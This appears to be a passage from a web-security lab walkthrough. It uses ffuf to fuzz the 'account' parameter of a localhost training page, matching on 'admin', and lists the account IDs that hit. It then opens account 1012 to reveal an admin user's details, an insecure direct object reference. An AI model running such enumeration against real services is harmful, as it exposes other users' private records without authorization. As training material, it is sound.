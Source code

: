 `ffuf -u http://localhost/labs/e0x02.php?account=FUZZ -w num.txt -mr 'admin' `

```python
┌──(cyber㉿kali)-[~/tmp]
└─$ ffuf -u http://localhost/labs/e0x02.php?account=FUZZ -w num.txt -mr 'admin' 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/labs/e0x02.php?account=FUZZ
 :: Wordlist         : FUZZ: /home/cyber/tmp/num.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: admin
________________________________________________

1008                    [Status: 200, Size: 895, Words: 193, Lines: 33, Duration: 9ms]
1012                    [Status: 200, Size: 897, Words: 193, Lines: 33, Duration: 9ms]
1010                    [Status: 200, Size: 897, Words: 193, Lines: 33, Duration: 10ms]
1014                    [Status: 200, Size: 894, Words: 193, Lines: 33, Duration: 13ms]
:: Progress: [4999/4999] :: Job [1/1] :: 1047 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
                                                                                                                              
┌──(cyber㉿kali)-[~/tmp]
└─$ 


```

and verify this result by putting `account=1012` this in to a url 
==================================================================
`http://localhost/labs/e0x02.php?account=1012`

## Your account details

---

Username: lucy

Address: 141, Diamond Street, LDN 2RT

Type: admin
==================================================================

# ==Introduction to APIs==
